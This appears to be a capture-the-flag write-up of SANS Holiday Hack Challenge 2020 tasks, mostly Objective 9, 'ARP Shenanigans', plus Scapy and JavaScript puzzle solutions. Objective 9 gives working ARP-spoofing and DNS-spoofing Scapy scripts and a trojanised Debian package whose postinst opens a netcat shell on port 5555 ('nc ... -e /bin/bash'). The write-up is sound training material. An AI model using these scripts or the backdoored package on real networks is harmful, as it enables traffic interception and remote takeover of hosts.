        <li><code>pkt = IP(src='127.0.0.1')/ICMP(type="echo-reply")</code></li>
        <li><code>pkt = IP(dst='127.0.0.1')/ICMP(type="echo-request")</code></li>
      </ol>
    <div class="answer">task.submit(<b>3</b>)</div>
  </li>
    <li>
      Create and then submit a UDP packet with a dport of 5000 and a dst IP of 127.127.127.127. 
      (all other packet attributes can be unspecified)
      <pre class="prettyprint lang-javascript">
pkt = IP(dst='127.127.127.127')/UDP(dport=5000)</pre>
      <div class="answer">task.submit(<b>pkt</b>)</div>
    </li>
    <li>
      Create and then submit a UDP packet with a dport of 53, a dst IP of 127.2.3.4, and is a 
      DNS query with a qname of "elveslove.santa".
      <pre class="prettyprint lang-javascript">
pkt = IP(dst="127.2.3.4")/UDP(dport=53)/DNS(opcode='QUERY', qd=DNSQR(qname="elveslove.santa"))</pre>
      <div class="answer">task.submit(<b>pkt</b>)</div>
    </li>
    <li>
      The variable ARP_PACKETS contains an ARP request and response packets. The ARP response 
      (the second packet) has 3 incorrect fields in the ARP layer. Correct the second packet in 
      ARP_PACKETS to be a proper ARP response and then task.submit(ARP_PACKETS) for inspection.
      <pre class="prettyprint lang-javascript">
ARP_PACKETS[1][ARP].op = 2
ARP_PACKETS[1][ARP].hwsrc = ARP_PACKETS[1][Ether].src
ARP_PACKETS[1][ARP].hwdst = ARP_PACKETS[1][Ether].dst</pre>
      <div class="answer">task.submit(<b>ARP_PACKETS</b>)</div>
    </li>
    <i>Note:</i> op should be <b>ARP-reply</b> (2), and source and destination MAC addresses must 
    also have values consistent with the Ethernet layer.
  </ol>
  <p>
    When the dust has settles, an impressed Alabaster gives some valuable hints for objective 9.
  </p>


  <h2 id="o09">Objective 9: ARP Shenanigans</h2>
  <div class="objective">
    Difficulty: 4<br>
    Go to the NetWars room on the roof and help Alabaster Snowball get access 
    back to a host using ARP. Retrieve the document at 
    /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from 
    the vote described on the document?
  </div>
  <p></p>
  <div class="quote">
    <div class="name">Alabaster Snowball:</div>
    Those skills might be useful to you later on! I've been trying those 
    skills out myself on this other terminal. I'm pretty sure I can use tcpdump to sniff 
    some packets. Then I'm going to try a machine-in-the-middle attack. Next, I'll spoof 
    a DNS response to point the host to my terminal. Then I want to respond to its HTTP 
    request with something I'll cook up. I'm almost there, but I can't quite get it. I could 
    use some help! For privacy reasons though, I can't let you access this other terminal. 
    I do plan to ask Santa for a hand with it next time he's nearby, though.
    <div class="name">as Santa:</div>
    Oh, I see the Scapy Present Packet Prepper has already been completed!
    Now you can help me get access to this machine.
    It seems that some interloper here at the North Pole has taken control of the host.
    We need to regain access to some important documents associated with Kringle Castle.
    Maybe we should try a machine-in-the-middle attack?
    That could give us access to manipulate DNS responses.
    But we'll still need to cook up something to change the HTTP response.
    I'm sure glad you're here Santa.
  </div>
  <p>
    Alabaster is in trouble, and only Santa can help. So we need to slip into Santas britches 
    again in order to help the big man show Jack Frost who is wearing the britches at the 
    North Pole (or something like that).
  </p>
  
  <h3>I) Sniffy</h3>
  <div class="hint">
    Jack Frost must have gotten malware on our host at 10.6.6.35 
    because we can no longer access it. Try sniffing the eth0 interface 
    using tcpdump -nni eth0 to see if you can view any traffic from 
    that host. 
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      Tmux <a href="https://tmuxcheatsheet.com/">cheatsheet</a> and 
      <a href="https://www.hamvocke.com/blog/a-quick-and-easy-guide-to-tmux/">quick guide</a>.
    </div>
  </div>
  <p>
    The terminal is a <b>Tmux</b> set up  with three initial panes, which presents the first
    challenge to the uninitiated. Pepper Minstix' training session in the <a href="#t04">unescape Tmux</a> 
    terminal challenge comes in handy here. Further hints can be found in the 
    <a href="src/o_09/HELP.md">HELP.md</a> file within the guest folder. Let's get started:
  </p>
  <div class="framed" style="width: 400px;">
    Jack Frost has hijacked the host at 10.6.6.35 with some custom malware.
    Help the North Pole by getting command line access back to this host.
    Read the HELP.md file for information to help you in this endeavor.
    Note: The terminal lifetime expires after 30 or more minutes so be 
    sure to copy off any essential work you have done as you go.
  </div>
  <p>
    tcpdump and tshark are command-line packet analyzers which can sniff and capture traffic 
    on a network interface, and which can read pcap files. Sniffing eth0 with name resolution, 
    protocol conversion and port number conversion disabled shows a sequence of broadcast ARP 
    (Address Resolution Protocol) requests:
  </p>
  <pre>
~$ <span>tshark -nni eth0</span>
Capturing on 'eth0'
1 0.000000000 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff <mark>ARP 42 Who has</mark> 10.6.6.53? Tell 10.6.6.35
2 1.031937978 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
3 2.071956679 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
...</pre>
  <p>
    Alabaster's host on 10.6.6.35 is looking for the ethernet (MAC) address belonging
    to IP address 10.6.6.53, which presumably is the default gateway. Let's see what it wants
    by pretending to be that gateway. 
  </p>

  <h3>II) Spoofy</h3>
  <div class="hint">
    The host is performing an ARP request. Perhaps we could do a 
    spoof to perform a machine-in-the-middle attack. I think we have 
    some sample scapy traffic scripts that could help you in 
    /home/guest/scripts.
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      An excellent introduction to the
      <a href="https://levelup.gitconnected.com/man-in-the-middle-attack-part-1-arp-spoofing-6f5b174dec59">ARP protocol and ARP spoofing</a>  
    </div>
  </div>
  <p>
    The idea is to answer the ARP request with an "is-at" response, providing the 
    host with our own MAC address in order to fool it into thinking that we are the 
    gateway. This is only a one-sided man (or machine) in the middle attack; for the 
    full monty, we would have to do the same to the gateway and forward any packets 
    we are not interested in terminating. An incomplete scapy script is provided in
    <a href="src/o_09/arp_resp.py">scripts/arp_resp.py</a> as a template for the 
    ARP responder. After filling in the gaps (source in <a href="src/o_09/arp_resp_mod.py">arp_resp_mod.py</a>) 
    it looks like:
  </p>
  <div class="hangright">
    <pre>
<mark>ARP request:</mark>
###[ Ethernet ]### 
  dst       = ff:ff:ff:ff:ff:ff
  src       = 4c:24:57:ab:ed:84
  type      = ARP
###[ ARP ]### 
     hwtype    = 0x1
     ptype     = IPv4
     hwlen     = 6
     plen      = 4
     op        = who-has
     hwsrc     = 4c:24:57:ab:ed:84
     psrc      = 10.6.6.35
     hwdst     = 00:00:00:00:00:00
     pdst      = 10.6.6.53
     

<mark>ARP response:</mark>
###[ Ethernet ]### 
  dst       = 4c:24:57:ab:ed:84
  src       = 02:42:0a:06:00:07
  type      = ARP
###[ ARP ]### 
     hwtype    = 0x1
     ptype     = IPv4
     hwlen     = 6
     plen      = 4
     op        = is-at
     hwsrc     = 02:42:0a:06:00:07
     psrc      = 10.6.6.53
     hwdst     = 4c:24:57:ab:ed:84
     pdst      = 10.6.6.35</pre>
  </div>
  <pre class="prettyprint lang-python">
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni

# Our eth0 mac address
macaddr = ni.ifaddresses('eth0')[ni.AF_LINK][0]['addr']

def handle_arp_packets(packet):
    # craft ARP response and send it 
    packet.show()
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst=packet[Ether].src, type=0x806, src=macaddr)  
        arp_response = ARP(pdst=packet[ARP].psrc)
        arp_response.op = 2
        arp_response.plen = packet[ARP].plen
        arp_response.hwlen = packet[ARP].hwlen
        arp_response.ptype = packet[ARP].ptype
        arp_response.hwtype = packet[ARP].hwtype
        arp_response.hwsrc = <mark>macaddr</mark>
        arp_response.psrc = packet[ARP].pdst
        arp_response.hwdst = packet[ARP].hwsrc
        arp_response.pdst = packet[ARP].psrc
        response = ether_resp/arp_response
        response.show()
        sendp(response, iface="eth0")
def main():
    # We only want arp requests with opcode 1
    berkeley_packet_filter = "(arp[6:2] = 1)"
    # sniffing for one packet that will be sent to a function, while storing none
    sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)
    
if __name__ == "__main__":
    main()</pre>
  <p>
    An ARP request and the response it should generate are shown on the right of the listing. The 
    scapy function <code>sniff</code> in main() waits until a packet matches the filter, then
    calls a handler <code>handle_arp_packets</code> with the packet as payload and exits
    after the first match. The filter uses the <a href="https://biot.com/capstats/bpf.html">berkeley packet filter</a>
    syntax to check for a packet having an ARP layer with opcode 1 (bytes 6-7), indicating a request.
    The handler then sets up an Ethernet layer packet of type 0x806 (the ARP ether type) 
    with our own MAC address as source and the requestors MAC as destination. The ARP layer
    is generated by copying items from the request packet, exchanging source and destination. 
    Setting <code>op = 2</code> (reply, 'is-at') and <code>hwsrc = macaddr</code> (our 
    own MAC address) completes the packet. 
  </p>
  <p>
    While experimenting, it is a pain to modify the template using vim every time the terminal 
    times out. Because copy and paste is supported by this Tmux terminal, it is possible to edit 
    files at home, convert them to base64 and then to simply paste that into the terminal:
  </p>
  <pre>
~$ <span>echo IyEvd ... &lt;base64 of file&gt; ... 4oKQ== | base64 -d &gt; arp_resp_mod.py</span></pre>
  <p>
    Tmux proves very useful when testing the ARP responder: we can run tshark in one pane to observe what 
    happens and then start the ARP responder in another one. The packet capture
  </p>
  <pre>
...
15 13.507956839 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
16 13.535988961 02:42:0a:06:00:03 → 4c:24:57:ab:ed:84 ARP 42 10.6.6.53 is at 02:42:0a:06:00:03
17 13.572752158    10.6.6.35 → 10.6.6.53    <mark>DNS 74 Standard query</mark> 0x0000 A ftp.osuosl.org
18 14.555932719 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
...</pre>
  <p>
    shows that the host accepted the spoofed gateway MAC and now hurls a DNS query at us, 
    demanding to find the IP address of an ftp server.
  </p>
  
  <h3>III) Resolvy</h3>
  <div class="hint">
    Hmmm, looks like the host does a DNS request after you successfully 
    do an ARP spoof. Let's return a DNS response resolving the request 
    to our IP.
  </div>
  <p>
    Same procedure as before: we reply to the DNS query with an answer pointing at our <b>real</b>
    IP address, <b>10.6.0.7</b>, and see what comes next. Again, a template is provided in 
    <a href="src/o_09/dns_resp.py">scripts/dns_resp.py</a>, waiting to be filled in. This
    time, however, the entire DNS layer is missing, leaving much room for frustration and 
    error because the host turns out to be quite particular about its answers. To help along,
    example pcap files are provided in the pcaps directory. With the gaps 
    filled in (source in <a href="src/o_09/dns_resp_mod.py">dns_resp_mod.py</a>):
  </p>
  <div class="hangright">
    <pre>
<mark>DNS query:</mark>
###[ DNS ]### 
    id        = 0
    qr        = 0
    opcode    = QUERY
    aa        = 0
    tc        = 0
    rd        = 1
    ra        = 0
    z         = 0
    ad        = 0
    cd        = 0
    rcode     = ok 
    qdcount   = 1
    ancount   = 0
    nscount   = 0
    arcount   = 0
    \qd        \ 
    |###[ DNS Question Record ]###
    |  qname     = 'ftp.osuosl.org.'
    |  qtype     = A
    |  qclass    = IN 
    an        = None 
    ns        = None 
    ar        = None 
     
<mark>DNS response:</mark>
###[ DNS ]###
    id        = 0 
    qr        = 1 
    opcode    = QUERY 
    aa        = 1 
    tc        = 0 
    rd        = 1 
    ra        = 1 
    z         = 0 
    ad        = 0 
    cd        = 0 
    rcode     = ok
    qdcount   = 1
    ancount   = 1
    nscount   = 0
    arcount   = 0
    \qd        \
    |###[ DNS Question Record ]###
    |  qname     = 'ftp.osuosl.org.'
    |  qtype     = A
    |  qclass    = IN
    \an        \
    |###[ DNS Resource Record ]###
    |  rrname    = 'ftp.osuosl.org.' 
    |  type      = A
    |  rclass    = IN
    |  ttl       = 60
    |  rdlen     = None
    |  rdata     = 10.6.0.7
    ns        = None
    ar        = None</pre>
  </div>
  <pre class="prettyprint lang-python">
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni

# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ni.ifaddresses('eth0')[ni.AF_LINK][0]['addr']
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.53"

def handle_dns_request(packet):
    # Craft DNS answer and send it
    packet.show()
    eth = Ether(src=packet[Ether].dst, dst=packet[Ether].src)
    ip  = IP(dst=packet[IP].src, src=packet[IP].dst)           
    udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport)   
    dns = DNS(
        id=packet[DNS].id, qr=1, aa=1, rd=1, ra=1, qdcount=1, ancount=1,
        qd=packet[DNS].qd,
        an=DNSRR(
            rrname=packet[DNSQR].qname, 
            rdata=ipaddr,
            ttl=60
        )
    )
    dns_response = eth / ip / udp / dns
    dns_response.show()
    sendp(dns_response, iface="eth0")
    
def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
    ] )
    
    # sniff the eth0 int without storing packets in memory and stopping after one dns request
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)
    
if __name__ == "__main__":
    main()</pre>
  <p>
    To the right of the listing, the DNS query sent by the host and the generated response 
    are shown (only the DNS layer; the full packet structure is <a href="src/o_09/dns_messages.txt">here</a>).
    The DNS responder functions in a similar way as the ARP responder, with a more complex filter
    to keep the focus tight. The different layers of the response packet are constructed from
    top down and only combined at the end. The fields in the 
    <a href="http://www.tcpipguide.com/free/t_DNSMessageHeaderandQuestionSectionFormat.htm">DNS layer</a> 
    have to be set carefully:
    <ul>
      <li>qr = 1 to indicate a response</li>
      <li>aa = 1 to indicate an authoritative answer :-)</li>
      <li>rd = 1 and ra = 1 because the query demanded recursion</li>
      <li>qdcount = 1 and ancount = 1 (one question, one answer) </li>
      <li>id (identifyer) and qd (DNS question record) as in the query</li>
      <li>an = new resource record to contain our answer</li>
    </ul>
    The constructor of the scapy DNS resource record class <code>DNSRR</code> does most of the
    work, we just need to set <b>rrname</b> to the name of the queried resource, and 
    <b>rdata</b> to our own IP address (not the spoofed one, that fails).
  </p>
  <p>
    To try out the DNS responder, first start a packet capture, then (in a separate pane) the
    DNS responder and finally in a third pane the ARP responder. The (tshark) protocol shows 
    a flurry of packets after the DNS response:
  </p>
  <pre>
 6 5.231959239 <mark style="background-color: greenyellow;">4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35</mark>
 7 6.291981985 <mark style="background-color: greenyellow;">4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35</mark>
 8 6.324077291 <mark style="background-color: greenyellow;">02:42:0a:06:00:07 → 4c:24:57:ab:ed:84 ARP 42 10.6.6.53 is at 02:42:0a:06:00:07</mark>
 9 6.352963129 <mark class="answer">   10.6.6.35 → 10.6.6.53    DNS 74 Standard query 0x0000 A ftp.osuosl.org</mark>
10 6.385000826 <mark class="answer">   10.6.6.53 → 10.6.6.35    DNS 104 Standard query response 0x0000 A ftp.osuosl.org A 10.6.0.7</mark>
11 6.390995509 <mark style="background-color: greenyellow;">02:42:0a:06:00:07 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.35? Tell 10.6.0.7</mark>
12 6.391112256 <mark style="background-color: greenyellow;">4c:24:57:ab:ed:84 → 02:42:0a:06:00:07 ARP 42 10.6.6.35 is at 4c:24:57:ab:ed:84</mark>
13 6.391116580     10.6.0.7 → 10.6.6.35    TCP 74 51978 → 64352 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 SACK_PERM=1 TSval=2813365991 TSecr=0 WS=128
14 6.391164757    10.6.6.35 → 10.6.0.7     TCP 74 64352 → 51978 [SYN, ACK] Seq=0 Ack=1 Win=65160 Len=0 MSS=1460 SACK_PERM=1 TSval=1481426581 TSecr=2813365991 WS=128
15 6.391182511     10.6.0.7 → 10.6.6.35    TCP 66 51978 → 64352 [ACK] Seq=1 Ack=1 Win=64256 Len=0 TSval=2813365991 TSecr=1481426581
16 6.393919961     10.6.0.7 → 10.6.6.35    TLSv1 583 Client Hello
17 6.393972008    10.6.6.35 → 10.6.0.7     TCP 66 64352 → 51978 [ACK] Seq=1 Ack=518 Win=64768 Len=0 TSval=1481426584 TSecr=2813365994
18 6.396093054    10.6.6.35 → 10.6.0.7     TLSv1.3 1579 Server Hello, Change Cipher Spec, Application Data, Application Data, Application Data, Application Data
19 6.396107363     10.6.0.7 → 10.6.6.35    TCP 66 51978 → 64352 [ACK] Seq=518 Ack=1514 Win=64128 Len=0 TSval=2813365996 TSecr=1481426586
20 6.396664690     10.6.0.7 → 10.6.6.35    TLSv1.3 146 Change Cipher Spec, Application Data
21 6.396974273    10.6.6.35 → 10.6.0.7     TLSv1.3 321 Application Data
22 6.397063741     10.6.0.7 → 10.6.6.35    TLSv1.3 278 Application Data
23 6.397092303    10.6.6.35 → 10.6.0.7     TLSv1.3 321 Application Data
24 6.402606855 <mark style="background-color: orange;">   10.6.6.35 → 10.6.0.7     TCP 74 48442 → 80 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 SACK_PERM=1 TSval=1481426593 TSecr=0 WS=128</mark>
25 6.402631706 <mark style="background-color: orange;">    10.6.0.7 → 10.6.6.35    TCP 54 80 → 48442 [RST, ACK] Seq=1 Ack=1 Win=0 Len=0</mark>
26 6.403934015    10.6.6.35 → 10.6.0.7     TLSv1.3 286 Application Data, Application Data, Application Data
27 6.404951375     10.6.0.7 → 10.6.6.35    TCP 66 51978 → 64352 [ACK] Seq=810 Ack=2245 Win=64128 Len=0 TSval=2813366005 TSecr=1481426587
28 6.405071504     10.6.0.7 → 10.6.6.35    TCP 66 51978 → 64352 [FIN, ACK] Seq=810 Ack=2245 Win=64128 Len=0 TSval=2813366005 TSecr=1481426587
29 6.405096223    10.6.6.35 → 10.6.0.7     TCP 66 64352 → 51978 [ACK] Seq=2245 Ack=811 Win=64640 Len=0 TSval=1481426595 TSecr=2813366005
30 7.356018081 <mark style="background-color: greenyellow;">4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35</mark>
31 8.411950892 <mark style="background-color: greenyellow;">4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35</mark></pre>
  <p>
    Most of this is inpenetrable TLS, but an attempt to address <b>port 80</b> looks interesting 
    (sequence number 24, 25). This port is generally used for HTTP, so let's set up an HTTP 
    server to listen on it. The hints in HELP.md suggest using <b>http.server</b>, a very simple
    but user friendly python module which is quite sufficient for our purposes. In a fourth 
    Tmux pane, create and change to a new directory <code>server/</code> and start the HTTP server
    there. Now that port 80 is open, the same ARP / DNS procedure as before leads to a HTTP GET 
    request sent to the server:
  </p>
  <pre>
~$ <span>mkdir server</span>
~$ <span>cd server</span>
~/server$ <span>python3 -m http.server 80</span>
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... 
    10.6.6.35 - - [28/Dec/2020 21:38:38] code 404, message File not found
    10.6.6.35 - - [28/Dec/2020 21:38:38] "<mark>GET /pub/jfrost/backdoor/suriv_amd64.deb</mark> HTTP/1.1" 404 -</pre>
  <p>
    So, Jack Frost tries to download the debian package <b>suriv_amd64.deb</b> from the directory 
    <b>/pub/jfrost/backdoor/</b>. Sounds veeeeery nefarious. But, it is christmas, the festival of 
    giving, so lets give him something.
  </p>
  <pre>
~/server$ <span>mkdir -p pub/jfrost/backdoor</span>
~/server$ <span>touch pub/jfrost/backdoor/suriv_amd64.deb</span>
~/server$ <span>python3 -m http.server 80</span>
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.6.6.35 - - [28/Dec/2020 21:46:42] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" <mark>200</mark> -  </pre>
  <p>
    Jacks host swallows the (currently empty) bait and hopefully tries to install it! This can be 
    verified via a <a href="src/o_09/dns_success_capture_80_on.txt">packet capture</a>. The final 
    step is to fill our present with something tasty.
  </p>

  <h3>IV) Embedy</h3>
  <div class="hint">
    The malware on the host does an HTTP request for a .deb package. 
    Maybe we can get command line access by sending it a command in 
    a customized .deb file
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      Detailed <a href="http://www.wannescolman.be/?p=98">description</a> 
      of how to place a trojan in a debian package.
    </div>
  </div>
  <p>
    The page linked by the hint gives step-by-step instructions on how to
    hide a reverse TCP shell inside an otherwise legitimate debian package.
    Messing around with Meterpreter would be a possibility if Metasploit
    was installed, but we have a simple alternative: amongst other goodies, 
    the <b>debs</b> directory contains a package for <b>netcat</b>, which 
    can be set up as reverse shell. The perfect present for a connisseur 
    such as Jack. Following instructions to pull apart the deb package:
  </p>
  <pre>
~$ <span>mkdir packing</span>
~$ <span>cp debs/netcat-traditional_1.10-41.1ubuntu1_amd64.deb packing</span>
~$ <span>cd packing/</span>
~/packing$ <span>dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb work</span>
~/packing$ <span>mkdir work/DEBIAN</span>
~/packing$ <span>ar -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb</span>
~/packing$ <span>tar -Jxvf control.tar.xz ./control</span>
    ./control
~/packing$ <span>tar -Jxvf control.tar.xz ./postinst</span>
    ./postinst
~/packing$ <span>mv control work/DEBIAN/</span>
~/packing$ <span>mv postinst work/DEBIAN/</span></pre>
  <p>
    The work directory now contains the package contents (usr and bin subdirectories)
    as well as the <a href="src/o_09/control">control</a> and <a href="src/o_09/postint">postint</a> 
    files of the package. <b>postint</b> executes after the installation and represents 
    our attack vector. We just need to add a line instructing the freshly installed 
    netcat to open a reverse shell and listen to port 5555 (for example):
  </p>
  <pre>
~/packing$ <span>echo "<mark>nc -n -v -l -p 5555 -e /bin/bash</mark>" >> work/DEBIAN/postinst</span></pre>
  <p>
    This is all, no further payload is required. Now everything has to be repacked 
    with <b>dpkg-deb</b> and renamed to the package Jack Frost wants:
  </p>
  <pre>
~/packing$ <span>dpkg-deb --build ./work/</span>
~/packing$ <span>mv work.deb ~/server/pub/jfrost/backdoor/suriv_amd64.deb</span></pre>
  <p>
    Now that our present is in place, we can restart the web server in 
    ~/server, the DNS responder and the ARP responder again and wait for the
    download to happen. After allowing a short time for the remote 
    install to finish, we can connect to the remote shell and control the host:
  </p>
  <pre>
~$ <span>nc -nv 10.6.6.35 5555</span></pre>
  
  <p>
    The desired document <a href="src/o_09/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt">/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt</a>
    can be read without further obstacles and shows Jack Frost at his best, as a fearless community
    leader concerned about reckless development and building activity in the fragile 
    North Pole environment. The document shows that <mark class="answer">Tanta Kringle</mark> recused 
    herself from the vote on the construction plans, and everyone else (except Jack Frost) 
    approved. Very fishy if you ask me ... how much pressure did Santa bring to bear? Has
    he succumbed to the dark side? Maybe a story for next year ...
  </p>

  <h2 id="t10">Terminal 10: The Elf Code</h2>


  <div class="terminal">
    
  </div>
  <div class="quote">
    <div class="name">Ribb Bonbowford:</div>
    Hello - my name is Ribb Bonbowford. Nice to meet you! Are you new to 
    programming? It's a handy skill for anyone in cyber security. This 
    challenge centers around JavaScript. Take a look at this intro and see 
    how far it gets you! Ready to move beyond elf commands? Don't be afraid 
    to mix in native JavaScript. Trying to extract only numbers from an 
    array? Have you tried to filter? Maybe you need to enumerate an object's 
    keys and then filter? Getting hung up on number of lines? Maybe try to 
    minify your code. Is there a way to push array items to the beginning 
    of an array? Hmm...
  </div>
  <div class="hint">
    &xrarr; 
    <a href="https://jgthms.com/javascript-in-14-minutes/">JavaScript primer</a> 
  </div>
  <div class="hint">
    &xrarr; 
    <a href="https://playcode.io/">JavaScript playground</a> 
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      Two useful commands: 
      <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/TypedArray/filter">filter</a> 
      and <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/typeof">typeof</a> 
    </div>
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      JavaScript code <a href="https://jscompress.com/">compression</a> 
    </div>
  </div>

  <p>
    This game is about moving around a wintery landscape, avoiding munchkins and pits and solving 
    mini-challenges (levers and munchkins) by writing and executing a JavaScript control code. 
    Apart from the usual JS commands, there are a number of <b>elf commands</b> which control 
    movement and interaction. For each level, the task is to gather all lollipops and get to the 
    gate within a maximum number of lines of code and a maximum number of elf commands.
    To solve the terminal challenge, it is sufficient to complete the first 6 levels, but 2 more
    challenges await thereafter ... 
  </p>
  
  <p>
    The table below lists for each level the level map, the requirements, tasks and solutions:
  </p>
  <table class="bordered">
    <colgroup>
      <col>
      <col>
      <col>
      <col>
      <col width="300px">
    </colgroup>
    <tr>
      <th>Level</th>
      <th>Code</th>
      <th>Restrictions</th>
      <th>Map</th>
      <th>Tasks / Comments</th>
    </tr>
    <tr>
      <td><h3>1</h3></td>
      <td>
        <code>
          elf.moveLeft(10); <br>
          elf.moveUp(10);
        </code>
      </td>
      <td>
        2 lines code, <br>2 elf cmds
      </td>
      <td>
        
      </td>
      <td></td>
    </tr>
    <tr>
      <td><h3>2</h3></td>
      <td>
        <code>
          elf.moveTo(lever[0]);<br>
          elf.pull_lever(elf.get_lever(0) + 2);<br>
          elf.moveLeft(4);<br>
          elf.moveUp(10);
        </code>
      </td>
      <td>
        5 lines code, <br>5 elf cmds
      </td>
      <td>
        <b>Trigger The Yeeter</b> <br>
        
      </td>
      <td>
        lever #0: add 2 to lever value
      </td>
    </tr>
    <tr>
      <td><h3>3</h3></td>
      <td>
        <code>
          for (var i = 0; i &lt; 3; i++) { <br>
            &nbsp;&nbsp;elf.moveTo(lollipop[i]); <br>
          } <br>
          elf.moveUp(1);
        </code>
      </td>
      <td>
        4 lines code, <br>4 elf cmds
      </td>
      <td>
        <b>Move To Loopiness</b> <br>
        
      </td>
      <td>
        Cannot meet restriction without a loop
      </td>
    </tr>
    <tr>
      <td><h3>4</h3></td>
      <td>
        <code>
          for (var i = 0; i &lt; 5; i++) { <br>
            &nbsp;&nbsp;elf.moveTo(lollipop[0]); <br>
            &nbsp;&nbsp;elf.moveUp(11); <br>
          }
        </code>
      </td>
      <td>
        7 lines code, <br>6 elf cmds
      </td>
      <td>
        <b>Up Down Loopiness</b> <br>
        
      </td>
      <td>
        This code is short at the cost of some unnecessary paths.
      </td>
    </tr>
    <tr>
      <td><h3>5</h3></td>
      <td>
        <code>
          elf.moveTo(lollipop[1]); <br>
          elf.moveTo(lollipop[0]); <br>
          var arr = elf.ask_munch(0); <br>
          elf.tell_munch(arr.filter(elem =>  <br>
            &nbsp;&nbsp;&nbsp;&nbsp;typeof(elem) === 'number')); <br>
          elf.moveUp(2);
        </code>
      </td>
      <td>
        10 lines code, <br>5 elf cmds
      </td>
      <td>
        <b>Move To Madness</b><br>
        
      </td>
      <td>
        Munchkin #0: return array of numbers from mixed array given by munchkin.
        This is achieved by filtering by type.
      </td>
    </tr>
    <tr>
      <td><h3>6</h3></td>
      <td>
        <code>
          for (var i = 0; i &lt; 4; i++) {<br>
            &nbsp;&nbsp;elf.moveTo(lollipop[i]);<br>
          }<br>
          elf.moveLeft(8);<br>
          elf.moveUp(2);<br>
          var munch = elf.ask_munch(0)<br>
          var answer = Object.keys(munch).find(key => <br>  
            &nbsp;&nbsp;&nbsp;&nbsp;munch[key] === "lollipop");<br>
          elf.tell_munch(answer);<br>
          elf.moveUp(2);
        </code>
      </td>
      <td>
        15 lines code, <br>7 elf cmds
      </td>
      <td>
        <b>Two Paths, Your Choice</b> <br>
        
      </td>
      <td>
        <p>Choose to answer either the lever or the munchkin.</p>
        <p>
          Munchkin #0: given a JSON object, return the key 
          with the value "lollipop".
        </p>
      </td>
    </tr>
    <tr>
      <td><h3>7</h3></td>
      <td>
        <code>
          function sum_array(arr_1) {<br>
            &nbsp;&nbsp;var sum = 0;<br>
            &nbsp;&nbsp;function add_item(item) <br>
            &nbsp;&nbsp;&nbsp;&nbsp;if (typeof(item) === 'number') <br>
                &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sum += item;<br>
                &nbsp;&nbsp;arr_1.forEach(arr2 =><br> 
                &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;arr2.forEach(add_item))<br>
                &nbsp;&nbsp;return sum<br>
          }<br>
          var move = [elf.moveLeft, elf.moveUp, <br>
          &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;elf.moveRight, elf.moveDown];<br>
          elf.moveDown(1);<br>
          for (var n = 0; n &lt; 7; n++) {<br>
            &nbsp;&nbsp;elf.pull_lever(n);<br>
            &nbsp;&nbsp;move[n % 4](n + 2);<br>
          }<br>
          elf.moveUp(2);<br>
          elf.moveLeft(4);<br>
          elf.tell_munch(sum_array);<br>
          elf.moveUp(2);<br>
        </code>
      </td>
      <td>
        25 lines code, <br>10 elf cmds
      </td>
      <td>
        <b>Yeeter Swirl (Bonus)</b> <br>
        
      </td>
      <td>
        <p>
          Lever #n needs to get pulled with elf.pull_lever(n)
        </p>
        <p>
          Munchkin #0 requires a function which takes a mixed
          array of arrays as argument and returns the sum of the 
          numeric elements. This could also be solved by adapting 
          the filter from question 5 (remembered too late).
        </p>
        <p>
          To manage the spirally motion, I defined an array of
          the 4 directional elf movemenst and used the spiral 
          index to select the correct element. 
        </p>
      </td>
    </tr>
    <tr>
      <td><h3>8</h3></td>
      <td>
        <code>
          function find_lolli_json(j_arr) {<br>
